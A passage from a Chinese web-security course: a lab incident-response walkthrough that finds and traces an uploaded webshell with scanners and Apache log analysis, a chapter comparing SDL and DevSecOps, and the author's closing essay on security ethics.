Lorg 是一款 Apache 日志的安全分析工具，可以帮助你识别日志中潜在的 Web 漏洞攻击行为，便于你快速定位漏洞位置，支持多种常见 Web 漏洞类型的识别， 支持 html、json、xml、csv 多个格式的检测报告输出。
使用如下命令来指定访问日志路径进行分析：
./lorg -d phpids -u -g /path/to/access_log
实例演示
接下来，我们以《13 |文件上传漏洞：种植服务器木马的捷径》的上传文件漏洞 为例，在利用漏洞上传Webshell完成入侵后，按照刚刚“应急处置流程”中讲解 的步骤，从防御者的角度来看如何应急响应。
1.关闭外网进行排查
先关闭外网，然后登录服务器进行排查。先借助 Wappalyzer插件看下目标网站 的指纹信息，如下图所示，可以看到是 Apache、Ubuntu 与 PHP的环境，Apache 的网站目录通常位于/var/www/html，直接打开验证下就知道（DVWA 靶场也确实 位于此目录下）。
DVWA 靶场网站指纹
2.Webshell 检测
接下来用河马对网站根目录进行 Webshell扫描，采用*深度扫描模式*，否则它 会扫描指定目录，而不会循环遍历目录扫描：
root@346953e9d6e9:/# ./hm scan /var/www/html
{1.8.2 hm#linux-amd64.24fbb40}
__
| |--.-----.--------.---.-.
| | -__| | _ |
|__|__|_____|__|__|__|___._|
http://www.shellpub.com
[*] 扫描预处理 2021-02-12 08:13:18
[*] 开始扫描 2021-02-12 08:13:18
ERRO[0001] cloud invalid error: invalid character '<' looking for beginning of value
+------+----------+------+
| 类型 | 深度查杀 | 数量 |
+------+----------+------+
| 后门 | 0 | 0 |
| 疑似 | 0 | 0 |
+------+----------+------+
| 总计 | 0 |
+------+----------+------+
[*] 恭喜!没有发现网站后门, 请您继续保持!
为什么扫不到呢？这是河马扫描机制的一个缺陷，因为 /var/www/html 是个指向 /app 的软链接：
root@346953e9d6e9:/# ll /var/www/html lrwxrwxrwx 1 root root 4 Feb 15 2016 /var/www/html -> /app/
所以应该直接扫描 /app 目录：
root@346953e9d6e9:/# ./hm scan /app
{1.8.2 hm#linux-amd64.24fbb40}
__
| |--.-----.--------.---.-.
| | -__| | _ |
|__|__|_____|__|__|__|___._|
http://www.shellpub.com
[*] 扫描预处理 2021-02-12 08:16:21
[*] 开始扫描 2021-02-12 08:16:21
|----------| 0/584 0% [elapsed: 56.037µs left: 0s, 0.00 iters/sec]2021/02/12 08:16:22
cloud scan error: invalid character '<' looking for beginning of value
ERRO[0002] cloud invalid error: invalid character '<' looking for beginning of value
+------+----------+------+
| 类型 | 深度查杀 | 数量 |
+------+----------+------+
| 后门 | 0 | 1 |
| 疑似 | 0 | 7 |
+------+----------+------+
| 总计 | 8 |
+------+----------+------+
[*] 详细结果已经保存到结果路径的result.csv文件中
|##########| 584/584 100% [elapsed: 1.000189195s left: 0s, 583.89 iters/sec]
扫到一个后门，打开 result.csv 看下：
root@346953e9d6e9:/# cat result.csv 序号,类型,路径 1,冰蝎3.0 PHP-PHP后门，建议清理,/app/hackable/uploads/shell.php 2,疑似PHP后门-建议人工确认,/app/external/phpids/0.6/lib/IDS/vendors/htmlpurifier/HTMLPurifier/AttrDef/HTML/Color.php 3,疑似PHP后门-建议人工确认,/app/external/phpids/0.6/tests/IDS/MonitorTest.php 4,疑似PHP后门-建议人工确认,/app/vulnerabilities/exec/source/high.php 5,疑似PHP后门-建议人工确认,/app/vulnerabilities/exec/source/impossible.php 6,疑似PHP后门-建议人工确认,/app/vulnerabilities/exec/source/low.php 7,疑似PHP后门-建议人工确认,/app/vulnerabilities/exec/source/medium.php 8,疑似PHP后门-建议人工确认,/app/vulnerabilities/upload/help/help.php
非常明确地识别出 /app/hackable/uploads/shell.php 是冰蝎Webshell，其他 一些疑似 PHP后门大多是存在漏洞的代码，在实际应用中，我们需要进一步去排 查这些疑似文件。
3.Web 日志分析
找到此shell.php，我们就可以通过分析日志去定位攻击者，主要还是用于回溯 攻击过程，因为攻击上传此shell.php 后一般都会去访问或执行其他操作。
Apache 日志位于 /var/log/apache2/access.log，先定位访问 shell.php 的IP 地址是 172.17.0.1。
root@346953e9d6e9:/var/log/apache2# cat access.log|grep shell.php 172.17.0.1 - - [12/Feb/2021:07:45:51 +0000] "GET /hackable/uploads/shell.php HTTP/1.1" 404 516 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36" 172.17.0.1 - - [12/Feb/2021:07:45:55 +0000] "GET /hackable/uploads/shell.php HTTP/1.1" 404 515 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36" ...... 172.17.0.1 - - [12/Feb/2021:08:13:35 +0000] "POST /hackable/uploads/shell.php HTTP/1.1" 200 3995 "-" "Mozilla/5.0 (iPod; CPU iPhone OS 13_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/84.0.4147.122 Mobile/15E148 Safari/604.1" 172.17.0.1 - - [12/Feb/2021:08:20:35 +0000] "POST /hackable/uploads/shell.php HTTP/1.1" 200 4527 "-" "Mozilla/5.0 (iPod; CPU iPhone OS 13_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/84.0.4147.122 Mobile/15E148 Safari/604.1"
4.漏洞定位与复现
从输出结果看，访问此 Webshell 的最早时间是 2021-02-12 07:45:51，再看下 此时间之间该攻击者还访问了哪些地址。
root@346953e9d6e9:/var/log/apache2# cat access.log|grep 172.17.0.1 172.17.0.1 - - [12/Feb/2021:07:43:03 +0000] "GET / HTTP/1.1" 302 385 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36" 172.17.0.1 - - [12/Feb/2021:07:43:03 +0000] "GET /login.php HTTP/1.1" 302 384 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36" 172.17.0.1 - - [12/Feb/2021:07:43:03 +0000] "GET /setup.php HTTP/1.1" 200 1822 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36" ...... 172.17.0.1 - - [12/Feb/2021:07:43:42 +0000] "GET /vulnerabilities/upload/ HTTP/1.1" 200 1838 "http://127.0.0.1:8081/index.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36" ...... 172.17.0.1 - - [12/Feb/2021:07:45:51 +0000] "GET /hackable/uploads/shell.php HTTP/1.1" 404 516 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36"
可以看到，攻击者在访问 shell.php 前 GET 请求/vulnerabilities/upload/ 地址，直接构造链接去访问下http://127.0.0.1/vulnerabilities/upload/，上 传入口就显现出来了。
上传页面
由此可以推测出攻击者可能是利用上传漏洞上传Webshell，从而控制服务器的， 我们可以重现下漏洞攻击过程，以验证前面的推测是否准确。
关于文件上传漏洞的测试过程在《13 | 文件上传漏洞：种植服务器木马的捷径》已 经讲过，此处不再赘述。
5.清除与加固
接下来，我们就可以 删除 /app/hackable/uploads/shell.php，同时 排查 下系统上是否还其他恶意程序，然后 修复上传漏洞 后再恢复网站。
此处演示中，我并没有留取 rootkit 或者前面内网渗透演示中的回连后门。你 可以在完成前面内网渗透操作后，按照本课程的思路去进一步排查，看能否自己 发现攻击者的渗透过程，并采取相应的安全解决方案。
小结
本节课主要介绍了网站入侵的检测方法，以及应急处理流程。
其中重点介绍 Webshell 查杀的方法和工具，并列举了一些在 Linux 平台下常 用的命令工具，用于排查系统上的可疑进程和文件，以确保一些后门的恶意程序 已被清除干净；否则单独补个漏洞，删除个 Webshell，并不能完全防止二次入 侵。
同时自己应注意做好数据备份，防止被恶意删除文件后无法恢复，造成严重的业 务经济损失。在用备份恢复数据时，注意提前入侵排查，建议提供备份好相关的 恶意文件，以留后续分析，防止有遗落的恶意行为和文件未被发现，同时为制作 相应的防御方案提供参考。
研发安全：从 SDL 到 DevSecOps
近几年，国内外越来越多人开始提倡 DevSecOps 理念，很多企业也逐步从 SDL 切换到 DevSecOps，以便研发出更安全的系统。
此外，DevSecOps 的应用也非常广泛，适用于各种研发领域，并不仅限于本套课 程所讲的 Web 领域。所以，本讲就向你介绍下 SDL、DevSecOps 相关理论与实 践，并对其进行出对比，方便你能够清楚地理解它们之点的差异和价值。
什么是 SDL？
SDL（安全开发生命周期）是一个满足安全合规要求的同时，兼顾开发成本的软 件开发过程。它由微软提出，旨在帮助开发人员构建更加安全的软件。
SDL的核心理念就是将*安全*集成到软件开发的每一个阶段，从需求（要求）、 设计、编码（实施）、测试、发布的每一阶段都应该加入相应的安全工作，以提 升软件安全质量。
SDL（安全开发生命周期）
如上图所示，早期对员工进行的安全培训，就已经是 SDL工作的一部分了；同时 遵循整个研发流程，即使是软件发布后，也应该建立一套完善的安全响应流程， 以应对发布后可能出现的安全事件。
不过，SDL也有不足，那就是它更强调安全人员的工作，而并未关注运维问题。 同时，现在企业越来越强调敏捷快速地开发产品，按SDL 的流程看，是比较难适 应这种快速迭代的研发流程的，从而促使了 DevSecOps的诞生。
什么是 DevSecOps？
提到 DevSecOps，就不得不先说下 DevOps 与开发模式。
1. DevOps
DevOps是“开发”与“运维”两词的缩写，它是一套最佳实践方法论，旨在软件 的开发生命周期中，促进IT专业人员（包括产品、开发、测试、运维等工作人员） 之间的协作和交流，最终实践 持续集成 （CI，集成各个开发团队成员工作， 以及时地发现错误）、 持续部署 （CD，保证快速且经常地发布）、 持续反 馈 （收集相关反馈帮助优化产品）的目标。
DevOps 过程
2. DevOps 与其他开发模式的不同
开发模式重点介绍下瀑布式开发、敏捷开发与 DevOps 的对比，通过下图就可以 很直观地看出三者之间的差异。
各种开发模型对比
可以看到从瀑布式开发到敏捷开发，再从敏捷开发到DevOps，可以看到各个阶段 的切换速度越来越快，且以前的运维部署工作都是放到最后的。而DevOps则结合 敏捷开发思想，将部署工作也敏捷起来，更强调自动化工具的实现与应用，以帮 助实现软件的快速迭代。
3.DevSecOps 强调安全
DevSecOps 正是在 DevOps的 CI/CD过程中嵌入安全工作，整合开发、安全、运 维等各项工作 ，强调安全是整个 IT团队（开发、安全、运维等工作人员）的 责任，而不仅仅是安全人员的工作，且需要贯穿整个研发生命周期的每一个环节， 如下图所示。
DevSecOps 流程
SDL 与 DevSecOps 的对比
SDL 与 DevSecOps 并不冲突，一些安全工作是相同的，*只是 DevSecOps更进一 步强调自动化融入流程，安全责任属于每个人*，自建更适合自己企业的安全文 化。
下面我整理出 SDL 与 DevSecOps 的一些对比，以帮助你更好地理解它们。
DevSecOps 工具链及其建设实践
如下图所示，Gartner 曾给出一套 DevSecOps 工具链，从计划、创建，到发布、 预防，再到预测、适应，共包括了 10个环节，接下来我们来看看每个环节中的 实践建议。
DevSecOps 工具链
1.计划（Plan）
- 在研发的早期，安全人员可以先给相关人员做 安全培训 ，开设一些安全相 关课程，在公司内部不定期地开展培训；
- 同时安全人员可制定相应的公司级 安全规范 ，包括各种语言的代码安全规 范、服务器安全加固规范等等，以引导相关人员在将需求设计阶段就将安全考 虑在内，并在后续的研发和运维中起参考作用，可以有效地避免一些常见的安 全问题；
- 同时，可邀请安全团队对需求做 安全评估 ，包括威胁建模等相关工作，以 尽早地发现安全问题，避免开发后再修改，浪费开发资源。
2.创建（Create）
在前面的漏洞攻防部分，修复漏洞时曾介绍过一些 安全开发库 ，这些也是此 阶段的应用实践部分。
还有一些现在流行的 IDE 集成开发环境中的代码 安全检测插件 。如下图所 示，比如最近陌陌开源的 Java 代码安全审计插件Momo Code Sec Inspector， 用于检测 Java 代码漏洞，并提供一些常见漏洞的修复代码自动生成功能；除了 自动化，也可以在企业内部推广代码评审，通过评审后再合并代码。
Momo Code Sec Inspector（Java）
3.验证（Verify）
验证测试是安全检测中不可缺少的部分，目前已经衍生出SAST（静态应用程序安 全测试）、DAST（动态应用程序安全测试）、IAST（交互式应用程序安全测试）、 SCA（软件成分分析）等安全测试技术。
SAST、DAST 和 IAST在《08 | SQL注入：漏洞的检测与防御》中已经介绍过，此 处不再赘述。
这里聊下 SCA ，它主要用于被利用的各类组件、库代码的安全问题，如果是一 些存在已知漏洞的代码被引用，就会影响产品的正常运行。所以在使用前，需要 对其进行检测，有时这部分检测也会放在 SAST 中，因为它也涉及静态代码分析。
4.预发布（Preprod）
在前面的验证环节中使用的方法也会应用在预发布中，比如将 SAST、DAST、 IAST、SCA 等技术应用到集成测试中；同时也会应用混沌工程去人为制造各种故 障，以验证系统在应对故障的情况下，能否稳定持续地提供正常服务；以及使用 Fuzzing 模糊测试技术去构造一些随机数据，发送给程序进行解析处理，通过检 测是否触发异常（比如内存崩溃）来判断是否存在安全漏洞。
一些加固壳等安全加固方案也是提高代码安全的一种方式，提高逆向破解成本， 在一定程度上也能防止遭受安全攻击。
5.发布（Release）
此阶段主要是应用软件签名来识别软件是由哪家企业开发的，同时区别一些重打 包的篡改软件，这能在一定程度上区分软件的可靠性。
6.预防（Prevent）
采用签名验证、完整性检查等手段来验证应用和数据是否被篡改过，防止由于判 断失误从而做出不符合预期的行为；同时采取“纵深防御”的思路，设置多层安 全措施和机制，防止单层防御被直接突破，可有效提高攻击成本，这是安全建设 工作中常用的一种手段。
7.检测（Detect）
运行时应用自我保护（RASP，Runtime ApplicationSelf-Protection）在《08 |SQL注入：漏洞的检测与防御》中介绍过，它通过实时监控、检测与阻断安全攻击，使得应用程序具备自我保护能力。
国内比较知名的开源项目就是百度的 OpenRASP。
Gartner 还创建一个新词叫 UEBA（User and Entity Behavior Analytics，用 户和实体行为分析），即通过对用户和系统实体在数据层面的异常行为，利用机 器学习的方法来发现网络安全、IT 办公安全、内外部的业务安全等风险，如数 据泄露、入侵、内部滥用等的安全问题。像一些业务安全中常应用到的风险控制 策略，也正属于此。
产品上线后，对其进行漏洞扫描，所以一些 SAST、DAST、IAST 技术又可以派上 用场了，包括 Web 漏洞扫描器、移动应用漏洞扫描系统、主机入侵检测系统、 流量安全分析系统等工具都属于此阶段。
国内流行的红蓝军对抗的演习、渗透测试也是对系统进行有效安全检测的方式， 能够避免闭门造车，以及其他过于主观的判断，只有经得起安全考验的系统才是 安全的系统。
8.响应（Respond）
RASP 既属于检测环节，也属于响应环节，因为它既有检测能力，也有阻断能力。
安全编排自动化响应（SOAR） 是 Gartner 提出的概念，用于帮助快速实现安 全应急响应工作，通过采集各种检测数据，对其进行分析，然后自动化定义、排 序和驱动执行应对安全事件的响应工作。
织布鸟 SOAR 系统
Walkoff SOAR
WAF、DDOS防御系统等传统的安全防御系统在对一些恶意请求时，能够做出拦截 阻断的响应，发挥安全防御作用。
这几年国内流行建立 SRC应急响应平台 ，通过奖励机制去收集产品漏洞，帮 助企业完善自身的检测与防御系统，同时提高产品的安全性。这种奖励外部的响 应方法非常有效，企业建议专门的应急响应团队也有助于第一时间响应安全事件， 降低或消除事件带来的负面影响。
9.预测（Predict）
通过监控外部情报，收集与整理出相关安全威胁信息，帮助内部一些检测与防御 系统增加和优化规则。比如外部曝光一款主流应用的高危漏洞，我们就可能及时 感知到，并进行漏洞分析，从而添加相应的检测与拦截规则，去提前做好防御工 作。
10.适应（Adapt）
基于前面的威胁情报、外部报告漏洞、红蓝军对抗等诸多手段去发现内部安全与 检测系统的不足，不断地复盘优化检测与防御规则，优化应急响应流程，从而提 升自身安全风险的管控能力。
总结
本节课重点介绍 SDL 与 DevSecOps 的相关概念与技术，并做了对比，然后详细 介绍了 DevSecOps 各个环节所涉及的相关技术和工具。
综上可以看出，想建立一套完整的 DevSecOps 实践流程，其所涉及的工作范围、 流程、工具都非常繁多，非一人之力所能完成，甚至不是单纯一两个小团队能够 完成的，本身它就是提倡多工种协同建设安全工作，而不是安全仅由安全人员来 背锅。
只有不断地实践、探索、优化 DevSecOps 模式，不断地改进相关工具链，不断 地提供更加自动化、更加便捷的安全能力，才能够提高整体的安全能力，做好安 全风险管控工作。
结束语 谈谈我的安全观
《Web 安全攻防之道》自 2020 年 11 月开始写，至现在，已历经 3个多月，在 这里正式地向你说一声“再见”，同时也感谢你一路的陪伴，希望这个专栏的内 容能让你有所收获。
这是我第一次写专栏课程，之前编辑联系我时，我一开始也不知道写什么，毕竟 与平时写公众号文章不一样。之前想写啥就写啥，而课程需要系统化地设计，相 对比较连贯、完整。写作期间，编辑们也经常帮助我修改文辞、设计图表，在此 一并感谢。
庆幸的是，结局不算差。最后，聊聊我的安全观，以作本次课程的结束语。
武德与技艺
俗话说“学艺先做人”，一颗善良的心比技术本身更重要。
早几年，年轻时春节回乡，见过一些搞黑产的同学，每年几百万收入。而自己寒 窗苦读十余年，工作奋斗多年，却不如一个初中毕业的。
但是后来自己释怀了，“君子爱财，取之有道”，自己正道获取的才有成就感， 才真正拿得住，而对方所拥有的一切并不长久。
曾见过一些人入行几个月后，就去搞黑产，在网上晒豪车，晒比基尼派对；而再 过个一年，人进去了，一切如梦幻一般；还有的人躲在国外，春节都回不了家， 虽然很有钱，但老婆孩子都几年没见面了，过着有钱而不幸福的日子。
所以，对于想进入安全行业的人，奉劝一句：不要搞黑产！
个人与行业
以前在 QQ或者安全论坛上经常会看到“拜师贴”，现在知乎上又常见到有人问 如何进入安全行业，或者认识到很厉害的黑客。
如果你足够优秀，行业会自动接纳你。
无论是学习还是工作，总期冀有人手把手教，有人一路带着飞，那几乎是不可能 的，没有谁有这个义务和责任，更没这个时间。
当然，如果你不做技术，也可以进入安全行业，比如HR、猎头等等，他们也常混 迹于安全圈，对行业非常了解，人脉也很广。
局部与整体
有次在外面开会，一会新闻记者问我“微信到底安不安全？”当时我回答：微信 安全与否，不仅仅是由自身App决定，还受手机系统环境影响。比如利用系统漏 洞窃取微信聊天内容，以及其他人为疏忽的原因，如密码泄露给他人，手机掉了 且未锁屏等。
而看待安全问题，需要从整体考虑出发。
这就如下图所示的抽屉，单纯锁一个抽屉，对它而言看似安全，但从另一个未锁 的抽屉进去，也同样可以拿到有锁抽屉内的东西。
锁抽屉
安全与业务
多年前，曾有阿里员工在匿名社区上吐槽阿里安全部是“阉党”，称其总拿安全 说事，阻碍业务发展。
阿里内部员工对安全部的吐槽
这种安全与业务的冲突在企业内部经常上演着，个人认为有以下几方面原因。
- 安全知识匮乏 ：很多业务不懂安全，也就无法理解安全问题所带来的危害， 自然就不愿意配合。以前就曾遇到过业务不配合去修复漏洞，然后服务器被入 侵了，导致业务方在公司内被通报批评，此事之后的安全事件处理，大家也就 都变成非常积极。
- 优先级认知不对等 ：多数情况下，安全人员认为安全高于一切，业务人员 认为产品体验、性能等业务功能高于安全。另外，安全工作很多不属于业务同 学的KPI，修复漏洞或者安全加固等工作对他的绩效帮助不大，大多是“附加 工作”，优先级没有业务开发工作高，也就不太愿意配合安全工作。
- 安全价值可见度低 ：安全人员做了很多工作，但也无法保证绝对的安全性， 有时可能还是会被入侵，这时候由于业务未看到安全价值，导致会有抱怨。这 正如大雨下的雨伞，已经帮你挡住了大部分的雨水，而你却只看到了零星洒落 到你身上的雨滴。
针对以上这些问题，=企业= 应该经常 对业务同事进行安全培训，提升安全意
识和技能 ，尽早地让安全成为业务的一部分。让大家意识到安全工作是大家协
同完成的，而不应该全由安全人员来背锅。
而 安全人员也应该尽可能地让安全价值可视化，多宣传下安全系统的价值 。
比如通过WAF年底总结报告，让大家了解安全部帮助公司拦截了多少次攻击，以
及进行全局实时攻击态势展示，统计漏洞扫描系统全年发现多少个漏洞等等。
其实安全与业务的冲突问题，本质上就是互相理解与信任的问题。
因为安全与业务的冲突本就是长期存在的，难以避免，这时就应该互相站在对方 的立场思考问题。比如，有些低危漏洞的修复与架构整改成本过高，甚至影响了 用户体验和性能，这里就可以考虑其他安全妥协方案，来兼顾、倾向业务的发展。
技术与运营
一切有利于提升产品安全能力与影响力的方法都可称为安全运营。例如，接收外 部反馈去优化产品体验、通过复盘漏报的漏洞去优化检测规则、宣传产品能力和 价值等等。
- 有些纯技术人员，一心沉迷于技术本身，使用了很多非常厉害的技术，系统检 测能力也很强，但由于没有业务使用，最后还是黄了，这就是运营不善导致的；
- 很多安全系统开发完成后，剩下的难点不在于系统开发本身，而是在于规则的 不断优化，这就需要你长期进行积累；
- 刚刚我提到安全价值的可见度低，所以这就更需要通过运营手段去展示和宣传 了，让业务人员看到安全的价值。
所以，你可以看出很多时候安全运营不是技术问题，而是运营问题。
可以这么说：技术是基石，运营是必要的，但炒作是可耻的。
一些公关炒作也可以看作是运营的部分，因为团队或产品需要对外发声，以提高 影响力。个人并不排斥，只是反感一些违反道德的不实炒作。
比如，有些安全公司发现漏洞后，给漏洞命名，然后通过购买多方的媒体宣传渠 道，故意炒作，夸大漏洞危害，企图提升公司知名度，这种恶意炒作行为就应该 受到抵制。
综上可见， 安全行业并不只是一个技术工作 。它还需要你具备君子般的武德、
持之以恒向优秀进发的毅力，以及能够顾全整体的广阔视野。最重要的是，你还
需要是个懂业务、擅运营的安全人员，能在技术之外，与其他伙伴协调、配合，
为团队贡献更多力量。
以上便是我结合自己多年来在安全行业的所见所闻，总结了一些安全观点，供君 参考，也欢迎你在留言区分享更多你的安全观点。
青山不改，绿水长流，祝各位工作顺利，在事业做出更牛的成绩！
再见！